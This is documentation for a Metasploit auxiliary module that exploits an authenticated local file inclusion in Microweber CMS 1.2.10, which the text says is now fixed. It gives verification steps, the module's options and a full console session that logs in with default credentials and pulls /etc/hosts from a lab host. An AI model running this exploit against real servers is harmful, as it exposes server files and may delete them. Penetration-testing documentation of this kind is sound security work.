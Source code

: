 ## Vulnerable Applications
Microweber CMS v1.2.10 LFI (Authenticated) has been verified and fixed according to the maintainer of the project. You check out the vulnerability report:
https://huntr.dev/bounties/09218d3f-1f6a-48ae-981c-85e86ad5ed8b/

**The older versions of Microweber CMS might be vulnerable too. I've not tested the module against the other versions.**
If you want, you can follow the steps in the official vulnerability report to reproduce the vulnerability against the older versions. (not guaranteed)

## Verification Steps
- [ ] Start `msfconsole`
- [ ] Run `use auxiliary/gather/microweber_lfi`
- [ ] Set `RHOSTS`
- [ ] Set `USERNAME`
- [ ] Set `PASSWORD`
- [ ] Set `LOCAL_FILE_PATH`
- [ ] Run `exploit`
- [ ] Verify that you see `Checking if it's Microweber CMS.`
- [ ] Verify that you see `Microweber CMS has been detected.`
- [ ] Verify that you see `Checking Microweber's version.`
- [ ] Verify that you see `Microweber version 1.2.10`
- [ ] Verify that you see `The target appears to be vulnerable.`
- [ ] Verify that you see `Trying to log in.`
- [ ] Verify that you see `You are logged in`
- [ ] Verify that you see `Uploading LOCAL_FILE_PATH to the backup folder.`
- [ ] Verify that you see `FILE was moved!`
- [ ] Verify that you see `Downloading FILE from the backup folder.`

## Options
```
msf auxiliary(gather/microweber_lfi) > options

Module options (auxiliary/gather/microweber_lfi):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   DEFANGED_MODE    true             yes       Run in defanged mode
   LOCAL_FILE_PATH                   yes       The path of the local file.
   PASSWORD                          yes       The admin's password for Microweber
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                            yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT            80               yes       The target port (TCP)
   SSL              false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI        /                yes       The base path for Microweber
   USERNAME                          yes       The admin's username for Microweber
   VHOST                             no        HTTP server virtual host
```

## Scenerios
This module has been tested against Microweber CMS v1.2.10 installed on Ubuntu.

```
msf auxiliary(gather/microweber_lfi) > use auxiliary/gather/microweber_lfi
msf auxiliary(gather/microweber_lfi) > set username admin
username => admin
msf auxiliary(gather/microweber_lfi) > set password admin
password => admin
msf auxiliary(gather/microweber_lfi) > set local_file_path /etc/hosts
local_file_path => /etc/hosts
msf auxiliary(gather/microweber_lfi) > set rhosts 192.168.188.132
rhosts => 192.168.188.132
msf auxiliary(gather/microweber_lfi) > check

[*] Checking if it's Microweber CMS.
[+] Microweber CMS has been detected.
[*] Checking Microweber's version.
[+] Microweber version 1.2.10
[*] 192.168.188.132:80 - The target appears to be vulnerable.
msf auxiliary(gather/microweber_lfi) > exploit
[*] Running module against 192.168.188.132

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if it's Microweber CMS.
[+] Microweber CMS has been detected.
[*] Checking Microweber's version.
[+] Microweber version 1.2.10
[+] The target appears to be vulnerable.
[-] Auxiliary aborted due to failure: bad-config: Triggering this vulnerability may delete the local file if the web service user has the permission.
If you want to continue, disable the DEFANGED_MODE.
=> set DEFANGED_MODE false
msf auxiliary(gather/microweber_lfi) > set defanged_mode false
defanged_mode => false
msf auxiliary(gather/microweber_lfi) > exploit
[*] Running module against 192.168.188.132

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if it's Microweber CMS.
[+] Microweber CMS has been detected.
[*] Checking Microweber's version.
[+] Microweber version 1.2.10
[+] The target appears to be vulnerable.
[*] Trying to log in.
[+] You are logged in
[*] Uploading /etc/hosts to the backup folder.
[+] hosts was moved!
[*] Downloading hosts from the backup folder.
[*] 127.0.0.1 localhost
127.0.1.1 ubuntu-srv-tk

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

[*] Auxiliary module execution completed
```
